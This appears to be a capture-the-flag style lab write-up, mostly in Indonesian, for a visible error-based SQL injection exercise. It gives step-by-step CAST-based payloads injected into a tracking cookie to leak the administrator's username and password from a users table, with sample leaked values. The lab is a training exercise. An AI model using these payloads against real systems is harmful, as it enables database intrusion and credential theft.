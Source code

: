 Visible error-based SQL injection

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

Berikut adalah pembaruan **Proof of Concept (PoC)** dengan menambahkan payload validasi awal baru:

---

### **1. Deskripsi Query dan Tujuan**
Tujuan dari eksploitasi ini adalah untuk memanfaatkan **error-based SQL injection** pada parameter `trackingId` guna mendapatkan kredensial pengguna admin (`username` dan `password`) dari tabel `users`.

#### **Query Utama:**
```sql
SELECT trackingId FROM trackingIdTable WHERE trackingId = 'pFNj0VuG3fnTFJ3a';
```

Query ini rentan terhadap **SQL injection** karena tidak ada validasi input, sehingga memungkinkan manipulasi menggunakan payload berbahaya.

---

### **2. Payload Validasi Awal**
#### **Payload Awal 1:**
```sql
pFNj0VuG3fnTFJ3a' AND CAST((SELECT 1) AS int)--
```
- **Tujuan:** Memastikan bahwa aplikasi rentan terhadap SQL injection dengan mencoba fungsi `CAST`.
- **`CAST((SELECT 1) AS int)`**: Mengonversi hasil query menjadi tipe data integer, memicu kesalahan jika input tidak valid.

#### **Payload Awal 2 (Baru Ditambahkan):**
```sql
pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT 1) AS int)--
```
- **Tujuan:** Memvalidasi kerentanan SQL injection menggunakan pernyataan logika `1=CAST((SELECT 1) AS int)`.
- **`1=CAST(...)`**: Mengevaluasi logika untuk memastikan bagian query dapat dieksekusi.

---

### **3. Payload untuk Eksploitasi**

#### **Payload untuk Mengambil Username:**
```sql
pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
- **`SELECT username FROM users LIMIT 1`**:
  - Mengambil username pertama dari tabel `users`.
- **`CAST(... AS int)`**:
  - Memaksa aplikasi untuk mencoba mengonversi nilai teks (username) menjadi integer, yang akan menghasilkan pesan error.

#### **Payload untuk Mengambil Password:**
```sql
pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
- **`SELECT password FROM users LIMIT 1`**:
  - Mengambil password pertama dari tabel `users`.
- **Pesan Error:** Aplikasi memunculkan pesan error yang mengungkapkan data yang tidak bisa dikonversi, misalnya `fc9v2vqq5gozvlcb0ibj`.

---

### **4. PoC Langkah demi Langkah**

1. **Validasi Awal:**
   Uji aplikasi dengan dua payload validasi:
   ```sql
   pFNj0VuG3fnTFJ3a' AND CAST((SELECT 1) AS int)--
   ```
   ```sql
   pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT 1) AS int)--
   ```
   **Hasil:** Aplikasi memunculkan pesan error yang menandakan SQL injection berhasil.

2. **Mengambil Username:**
   Eksploitasi untuk mengambil username dari tabel `users`.
   ```sql
   ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
   ```
   **Hasil:** Pesan error aplikasi menampilkan username pertama, misalnya `admin`.

3. **Mengambil Password:**
   Gunakan payload berikut untuk mendapatkan password pengguna:
   ```sql
   ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
   ```
   **Hasil:** Pesan error akan menampilkan password, misalnya `fc9v2vqq5gozvlcb0ibj`.

---

### **5. Penjelasan Detail Query**

#### **1. Validasi SQL Injection**
- Payload validasi bertujuan untuk memastikan kerentanan SQL injection dengan mengeksploitasi fungsi `CAST`:
  - `CAST((SELECT 1) AS int)` mencoba mengubah hasil query menjadi integer.
  - `1=CAST((SELECT 1) AS int)` mengevaluasi logika untuk memvalidasi hasil.

#### **2. Teknik Error-Based SQL Injection**
- **Error-Based SQL Injection** mengeksploitasi pesan error dari fungsi seperti `CAST` untuk mengekstrak data. Saat tipe data tidak sesuai (contoh: mencoba mengubah teks menjadi integer), aplikasi mengungkapkan informasi dari database melalui pesan error.

#### **3. Pengambilan Data Sensitif**
- `SELECT username FROM users LIMIT 1` dan `SELECT password FROM users LIMIT 1` memungkinkan penyerang mengekstrak informasi satu per satu, dimulai dari username hingga password.

---

### **6. Kesimpulan**
Dengan memanfaatkan **error-based SQL injection**, penyerang dapat mengekstrak informasi sensitif seperti username dan password. Berikut adalah payload langkah demi langkah:

1. **Payload Validasi Awal 1:**
   ```sql
   pFNj0VuG3fnTFJ3a' AND CAST((SELECT 1) AS int)--
   ```

2. **Payload Validasi Awal 2:**
   ```sql
   pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT 1) AS int)--
   ```

3. **Mengambil Username:**
   ```sql
   ' AND CAST((SELECT username FROM users LIMIT 1) AS int)--
   ```

4. **Mengambil Password:**
   ```sql
   ' AND CAST((SELECT password FROM users LIMIT 1) AS int)--
   ```
![image](https://github.com/user-attachments/assets/2cfeaea3-4360-4d59-8c45-4070ae3a2098)
